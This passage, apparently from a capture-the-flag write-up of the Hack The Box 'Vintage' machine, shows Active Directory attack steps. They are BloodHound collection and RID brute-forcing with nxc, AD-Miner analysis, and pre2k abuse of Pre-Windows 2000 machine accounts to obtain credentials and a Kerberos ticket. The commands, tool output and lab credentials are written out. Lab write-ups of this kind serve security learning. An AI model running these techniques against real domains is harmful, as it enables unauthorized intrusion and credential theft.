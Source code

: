 ```bash
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [*]  x64 (name:dc01.vintage.htb) (domain:vintage.htb) (signing:True) (SMBv1:False)
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [+] vintage.htb\P.Rosa:Rosaisbest123
LDAP        dc01.vintage.htb 389    dc01.vintage.htb Resolved collection methods: container, dcom, trusts, group, acl, localadmin, objectprops, session, psremote, rdp
LDAP        dc01.vintage.htb 389    dc01.vintage.htb Using kerberos auth without ccache, getting TGT
LDAP        dc01.vintage.htb 389    dc01.vintage.htb Done in 00M 05S
LDAP        dc01.vintage.htb 389    dc01.vintage.htb Compressing output into /root/.nxc/logs/dc01.vintage.htb_dc01.vintage.htb_2025-04-28_163144_bloodhound.zip
```
We can also do an ```--rid-brute``` to check all users/computers

```bash
nxc smb dc01.vintage.htb -u 'P.Rosa' -p 'Rosaisbest123'  -k --rid-brute

SMB         dc01.vintage.htb 445    dc01             1107: VINTAGE\gMSA01$ (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1108: VINTAGE\FS01$ (SidTypeUser)
```
### Abusing Pre-Windows 2000 Compatibility

Using **AD-Miner** for a different view on potential attack paths

```bash
AD-miner -u 'neo4j' -p 'exegol4thewin' -cf vintage
```

![alt text](../assets/image_vintage/2024-12-01_07-59_adminer_pre2000.png)

Using **pre2k** like this :

```bash
pre2k unauth -d vintage.htb -dc-ip 10.10.11.45 -save -inputfile users.txt

[16:50:07] INFO     Testing started at 2025-04-28 16:50:07
[16:50:07] INFO     Using 10 threads
[16:50:07] INFO     VALID CREDENTIALS: vintage.htb\FS01$:fs01
[16:50:07] INFO     Saving ticket in FS01$.ccache
```
We can retrieve the ccache of **FS01$** 
